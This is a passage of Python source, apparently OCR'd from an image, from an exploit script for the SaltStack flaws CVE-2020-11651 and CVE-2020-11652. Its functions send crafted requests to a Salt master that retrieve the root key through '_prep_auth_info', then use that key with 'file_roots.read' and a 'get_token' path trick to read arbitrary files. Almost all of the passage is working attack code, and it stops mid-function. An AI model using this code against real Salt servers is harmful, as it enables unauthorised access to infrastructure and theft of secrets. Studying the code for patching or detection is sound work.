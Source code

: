     def check_CVE_2020_11651(channel):
      print("[+] Checking if vulnerable to CVE-2020-11651... ", end='')
      sys.stdout.flush()
      # try to evil
      try:
        rets = channel.send({'cmd': '_prep_auth_info'}, timeout=3)
      except salt.exceptions.SaltReqTimeoutError:
        print("YES")
      except:
        print("ERROR")
        raise
      else:
          pass
      finally:
        if rets:
          root_key = rets[2]['root']
          return root_key

      return None

    def check_CVE_2020_11652_read_token(debug, channel, top_secret_file_path):
      print("[+] Checking if vulnerable to CVE-2020-11652 (read_token)... ", end='')
      sys.stdout.flush()

      # try read file
      msg = {
        'cmd': 'get_token',
        'arg': [],
        'token': top_secret_file_path,
      }

      try:
        rets = channel.send(msg, timeout=3)
      except salt.exceptions.SaltReqTimeoutError:
        print("YES")
      except:
        print("ERROR")
        raise
      else:
        if debug:
          print()
          print(rets)
        print("NO")
      
    def check_CVE_2020_11652_read(debug, channel, top_secret_file_path, root_key):
      print("[+] Checking if vulnerable to CVE-2020-11652 (read)... ", end='')
      sys.stdout.flush()

      # try read file
      msg = {
        'key': root_key,
        'cmd': 'wheel',
        'fun': 'file_roots.read',
        'path': top_secret_file_path,
        'saltenv': 'base',
      }

